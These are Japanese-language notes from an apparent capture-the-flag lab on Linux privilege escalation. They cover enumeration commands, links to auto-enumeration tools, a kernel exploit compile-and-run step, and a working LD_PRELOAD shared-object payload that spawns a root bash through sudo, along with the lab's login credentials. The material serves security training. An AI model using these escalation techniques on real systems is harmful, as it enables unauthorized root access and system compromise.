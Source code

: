 # Linux Privilege Escalation

## 環境

Username: karen  
Password: Password1

## Task3 Enumeration（列挙）

### 情報表示系コマンド

```shell
$ hostname    # ホスト名を表示
$ uname -a    # カーネルの情報を表示
$ cat /proc/version  # カーネルのバージョンに関する情報など
$ cat /etc/issue     # OSに関する情報を表示
$ ps -A       # 実行中のすべてのプロセスを表示
$ ps -axjf    # プロセスツリーを表示
$ ps aux      # すべてのユーザのプロセスを表示(a)、プロセスを起動したユーザを表示(u)、端末に接続されていないプロセスを表示(x)
$ env         # 環境変するを表示
$ sudo -l     # sudoコマンドを使用してユーザが実行できるコマンドを表示
$ id          # ユーザの特権レベルとグループを表示
$ cat /etc/passwd # システム上のユーザ情報一覧
$ history     # コマンドの使用履歴
$ ifconfig    # ネットワークインターフェースに関する情報
$ ip route    # ルーティングテーブルの表示
$ netstat -a  # すべてのListenポートとEstablishされた接続を表示
$ netstat -at # すべてのTCP接続。-uならUPD接続
$ netstat -tp # -p はPIDとサービス名を表示
```

### 検索コマンド

```shell
$ find . -name flag1.txt  # 現在のディレクトリで「flag1.txt」という名前のファイルを見つけます。
$ find / -type d -name config # 「/」の下にある config という名前のディレクトリを見つけます。
$ find / -type f -perm 0777 # 777 パーミッションを持つファイルを検索 (すべてのユーザーが読み取り、書き込み、および実行できるファイル)
$ find / -perm a=x # 実行可能ファイルを見つける
$ find /home -user frank # 「/home」の下にあるユーザー「frank」のすべてのファイルを検索します
$ find / -mtime 10 # 過去 10 日間に変更されたファイルを検索します
$ find / -atime 10 # 過去 10 日間にアクセスされたファイルを検索します
$ find / -cmin -60 # 過去 1 時間 (60 分) 以内に変更されたファイルを検索
$ find / -amin -60 # 過去 1 時間 (60 分) 以内のファイル アクセスを検索
$ find / -size 50M # サイズが 50 MB のファイルを検索
$ find / -perm -u=s -type f 2>/dev/null # SUIDビットガセットされているファイルを検索します。
```

## Task4 Automated Enumeration Tools(自動列挙ツール)

- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [LES(Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)
- [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- [Linux Priv Checker](https://github.com/linted/linuxprivchecker)


## Task5 Privilege Escalation: Kernel Exploits

### カーネルエクスプロイトの手順

1. カーネルのバージョンを特定する
2. ターゲットシステムのカーネルバージョンのエクスプロイトコードを検索して見つける
3. エクスプロイトを実行する

### 情報源

- Google検索
- [https://www.linuxkernelcves.com/cves](https://www.linuxkernelcves.com/cves)
- LES (Linux Exploit Suggester) などのスクリプトを使用する

### 質問の答え

[ここ](https://www.exploit-db.com/exploits/37292)にあるコードをコンパイルして実行するとルートになれる

```shell
$ gcc ofs.c -o ofs
$ ./ofs
```
後は find で flag1.txtを探して中身を確認。

## Task6 Sudo

[sudo権限を持つコマンドの使用方法](https://gtfobins.github.io/)

### LD_PRELOADを利用した権限昇格手順

LD_PRELOADは任意のプログラムが共有ライブラリを使用できるようにする機能。

権限昇格手順は以下の通り。
1. LD_PRELOADを確認する(env_keepオプションを利用)
2. 共有オブジェクト(.so拡張子)ファイルとしてコンパイルされたCコードを作成
3. sudo権限と.soファイルを指すLD_PRELOADオプションでプログラムを実行

コード例

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

このコードをshell.cとして保存し、gccで共有オブジェクトとしてコンパイル

```shell
gcc -fPIC -shared -o shell.so shell.c --nostartfiles
```

sudoで実行できるプログラムを実行時に、この共有オブジェクトファイルを使用するように指定する

```shell
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

### 質問の答え

1. sudo -lの出力を確認すればよい
2. /home/ubuntuにflag2.txtがあるのでcatで見る
3. https://gtfobins.github.io/ でnmapの欄を確認し、sudoでの特権昇格方
法に記載のとおり実行すればよい
4. sudo -l で確認すると/usr/bin/nanoが含まれているので、上記3のURLでnanoの欄を確認し、sudo出の特権昇格方法に記載のとおり実行すればよい

## Task7 Privilege Escalation:SUID


